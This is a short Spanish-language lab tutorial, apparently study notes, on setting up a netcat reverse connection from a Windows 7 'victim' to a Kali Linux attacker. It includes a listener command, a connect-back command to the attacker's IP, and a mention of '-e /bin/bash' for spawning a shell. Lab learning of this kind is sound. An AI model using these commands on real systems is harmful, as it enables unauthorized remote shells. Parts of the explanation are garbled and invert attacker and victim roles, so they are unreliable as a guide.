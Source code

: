 Una Conexion inversa es cuando la victima se conecta al atacante.

Nuestro Kali Linux es nuestro S.O como hacker, la maquina del atacante.

El Windows 7 Es la victima de la victima.

Entonces lo que vamos a hacer es una conexion inversa que seria que con nuestro Kali nos conectamos al W7.

Primero de la maquina del Atacante vamos a abrir los puertos utilizando el comando que ya vimos en el anterior post.


```sh
#nc -lvvp "puerto"
nc -lvvp 4447

# lo que hace la flag lvvp es poner netcat en escucha en el puerto 4447
```

![[Pasted image 20231123112452.png]]

Y ahora desde la maquina de la victima vamos a conectarnos a la maquina del atacante.
Con el comando visto anteriormente.

```sh
#nc ip-atacante
nc 192.168.0.21 4447
```

Como podemos ver ya tenemos acceso remoto desde la maquina victima hacia la maquina del atacante.

![[Pasted image 20231123112756.png]]

Esa es una prueba de conexion inversa.

Ahora lo que vamos a hacer es generar una shell en la maquina de la victima a la hora que se conecte a nuestra maquina, como hacemos eso?
Con los mismos comandos del anterior post pero ahora cambiamos de maquinas y de terminales, porque recuerden que linux no tiene cmd tiene bash.

![[Pasted image 20231123113037.png]]

Y de parte de W7 lo que nos quedaria hacer es conectarnos.

![[Pasted image 20231123113526.png]]
Ahi como podemos ver desde W7 la maquina de la victima, establecí una conexión hacia la maquina del atacante , y recuerden que habíamos activado la flag -e /bin/bash, entonces se me abrió una terminal para controlar la maquina del atacante.

Posteriormente para corroborar me movilice al escritorio y cree la carpeta prueba.